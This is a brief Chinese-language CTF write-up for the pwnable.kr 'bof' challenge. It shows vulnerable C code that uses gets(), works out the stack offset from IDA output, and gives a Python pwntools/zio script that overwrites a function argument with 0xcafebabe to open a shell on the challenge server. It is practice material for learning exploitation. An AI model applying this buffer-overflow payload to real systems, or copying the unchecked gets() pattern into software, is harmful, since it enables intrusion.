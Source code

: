 #bof
---
##1.分析逻辑
	void func(int key){
		char overflowme[32];
		printf("overflow me : ");
		gets(overflowme);	// smash me!
		if(key == 0xcafebabe){
			system("/bin/sh");
		}
		else{
			printf("Nah..\n");
		}
	}
	int main(int argc, char* argv[]){
		func(0xdeadbeef);
		return 0;
	}
当函数参数为0xcafebabe时，输出flag
##2.漏洞
容易注意到函数内存在gets，因此可进行栈溢出
##3.利用
IDA查看缓冲区位置

```c
	char s; // [esp+1Ch] [ebp-2Ch]
	unsigned int v3; // [esp+3Ch] [ebp-Ch]
	v3 = __readgsdword(0x14u);
	puts("overflow me : ");
	gets(&s);
```

为了覆盖到参数，需要覆盖0x2c+4+4=0x34字节（包括bp和返回地址）

	
	from pwn import *
	from zio3 import *
	target = ('pwnable.kr',9000)
	io = zio('./bof')
	io = zio(target,timeout=10000)
	#io.read_until("overflow me : ")
	payload = b'a' * (0x2c+8)+l32(0xcafebabe)
	io.write(payload)
	io.interact()

